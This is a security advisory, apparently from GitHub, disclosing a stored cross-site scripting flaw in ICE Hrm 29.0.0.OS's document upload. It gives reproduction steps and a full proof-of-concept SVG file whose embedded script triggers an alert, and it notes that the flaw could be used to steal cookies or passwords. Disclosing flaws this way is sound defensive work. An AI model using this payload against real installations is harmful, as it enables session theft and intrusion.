 
# Author
Rafal Lykowski & Piyush Patil

# Description
The file upload feature in ICE Hrm Version 29.0.0.OS allows remote attackers to inject arbitrary HTML or JavaScript via a cross site scripting (XSS) vulnerability.

# Steps to Reproduce the issue:
1- Login to ICE Hrm Admin Panel

2- Click on Employees=>Document Management=> Upload a below xml file

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("XSS");
   </script>
</svg>
```

3- Visit the upload location of file and XSS will get triggered.

# Video POC:
https://drive.google.com/file/d/1SnMsIhOJKBq4Pnotgm0nw1Pz7TypPsoQ/view?usp=sharing

# Impact
XSS can use to steal cookies, password or to run arbitrary code on a victim's browser
